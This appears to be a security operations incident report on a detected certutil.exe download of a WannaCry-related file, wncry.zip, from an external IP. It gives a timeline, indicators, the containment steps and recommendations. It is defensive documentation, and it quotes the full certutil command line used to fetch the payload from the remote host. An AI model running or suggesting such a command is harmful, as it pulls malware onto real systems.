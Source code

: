 # [CASE] Malicious certutil.exe Download from External IP

### Case ID (slug-friendly)

malware-2025-09-28

### Case Title

Malicious certutil.exe file download from external IP

### Executive summary

Detected malicious use of certutil.exe to download a payload from http://61.135.214.54/wncry.zip. This indicates possible malware delivery via a Living-off-the-Land binary. The activity was confirmed as True Positive.

### Timeline (key timestamps)

2025-09-28 10:03 — certutil.exe executed with -urlcache -split -f

2025-09-28 10:04 — connection to 61.135.214.54 established

2025-09-28 10:05 — file wncry.zip downloaded

### Artifacts / IOCs

certutil.exe was executed by a user or process without administrative purpose.

The command downloaded a file from a suspicious external IP (61.135.214.54).

Behavior matches LOLBAS technique for malicious file delivery.

No legitimate reason for certutil network access was observed.

Potential association with WannaCry-related payloads (wncry.zip).

### Technical analysis

URL: http://61.135.214.54/wncry.zip

IP: 61.135.214.54

Process: certutil.exe

Command line: certutil.exe -urlcache -split -f http://61.135.214.54/wncry.zip wncry.zip

### Actions taken / Mitigation

Host isolated from network

IOC (IP/URL) blocked on firewall and proxy

File quarantined and submitted for malware analysis

Event escalated for threat hunting

### Recommendations / Next steps

Perform IOC sweep across environment

Review all certutil.exe executions in last 7 days

Update SIEM detection for LOLBAS-based downloads

Conduct awareness session for users on suspicious tools

### Case owner

Ievgen Bondarenko
